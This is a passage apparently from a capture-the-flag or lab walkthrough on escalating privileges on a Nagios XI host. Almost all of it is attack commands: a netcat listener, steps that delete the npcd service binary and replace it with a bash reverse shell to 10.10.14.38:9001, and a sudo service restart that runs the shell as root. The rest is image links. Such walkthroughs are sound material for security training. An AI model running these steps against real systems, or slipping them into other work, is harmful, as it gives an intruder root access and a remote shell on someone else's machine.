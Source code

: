 ```bash
rlwrap -cAr nc -lvnp 9001

```
- Do the following:

```bash
rm -rf /usr/local/nagios/bin/npcd

nano /usr/local/nagios/bin/npcd

#!/bin/bash
bin/bash -i >& /dev/tcp/10.10.14.38/9001 0>&1
chmod +x /usr/local/nagios/bin/npcd
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

![image49](../resources/6dafc92d6dde4a738d4320012e337f5b.png)


![image50](../resources/0c5aad1dde79416d983de8bc22a48939.png)


![image51](../resources/89436fc864c54ae6919b36924a6910d7.png)


![image52](../resources/e851b0e6717b4798bc5e3441d3bcbda7.png)


![image53](../resources/ef388230d13b4ddcbdbdfe8c574eafc1.png)